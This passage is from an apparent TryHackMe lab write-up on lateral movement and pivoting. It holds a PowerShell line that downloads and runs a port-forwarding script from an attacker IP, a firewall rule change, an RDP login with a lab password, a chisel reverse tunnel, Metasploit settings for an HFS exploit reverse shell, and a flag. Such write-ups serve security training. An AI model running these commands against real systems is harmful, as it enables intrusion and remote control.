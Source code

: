 
### Let's Get to Work!

Do port forwarding with `Invoke-PortFwd.ps1`

```bash
┌──(kali㉿kali)-[~/thm/lateralmovementandpivoting/www]
└─$ ln -s /opt/sectools/powershell/Empire/lateral_movement/Invoke-PortFwd.ps1
```

```bash
powershell -ep bypass
iex(new-object system.net.webclient).downloadstring('http://10.50.17.90/Invoke-PortFwd.ps1')
netsh advfirewall firewall add rule name="Open Port 13389" dir=in action=allow protocol=TCP localport=13389
Invoke-PortFwd 0.0.0.0 13389 10.200.19.201 3389
```

```bash
xfreerdp /v:THMJMP2.za.tryhackme.com:13389 /u:t1_thomas.moore /p:MyPazzw3rd2020
```

![](/assets/obsidian/607b5ab06264858ea3401effa1bf0bb9.png)

> THM{SIGHT_BEYOND_SIGHT}


### Tunnelling Complex Exploits

```bash
C:\programdata\chisel.exe client 10.50.17.90:81 R:8888:thmdc.za.tryhackme.com:80 8081:127.0.0.1:8081 1111:127.0.0.1:1111
```

```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > set lhost thmjmp2.za.tryhackme.com
lhost => thmjmp2.za.tryhackme.com
msf6 exploit(windows/http/rejetto_hfs_exec) > set ReverseListenerBindAddress 127.0.0.1
ReverseListenerBindAddress => 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set lport 1111
lport => 1111
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvhost 127.0.0.1
srvhost => 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvport 8081
srvport => 8081
msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8888
rport => 8888
```